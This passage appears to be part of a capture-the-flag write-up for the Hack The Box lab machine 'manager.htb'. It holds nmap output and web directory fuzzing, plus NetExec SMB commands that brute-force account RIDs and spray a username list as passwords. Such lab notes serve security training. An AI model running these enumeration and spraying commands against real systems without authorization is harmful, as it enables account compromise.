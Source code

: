 ```sh
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-30T17:08:51
| Not valid after:  2122-07-27T10:31:04
| MD5:   bc56:af22:5a3d:db67:c9bb:a439:4232:14d1
| SHA-1: 2b6d:98b3:d379:df64:59f6:c665:d4b7:53b0:faf6:e07a

5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

```

UDP
```sh


```

# HTTP
http://manager.htb/
![[/assets/images/manager1.png]]

## Fuzzing
http://manager.htb/images/
http://manager.htb/js/
http://manager.htb/css/

![[/assets/images/manager2.png]]

# SMB
![[/assets/images/manager4.png]]

![[/assets/images/manager3.png]]

```sh
nxc smb manager.htb -u 'guest' -p '' --rid-brute | grep "SidTypeUser"
```

-> didn't work 

```sh
nxc smb manager.htb -u usernames.txt -p usernames.txt --continue-on-success
```

![[/assets/images/manager5.png]]
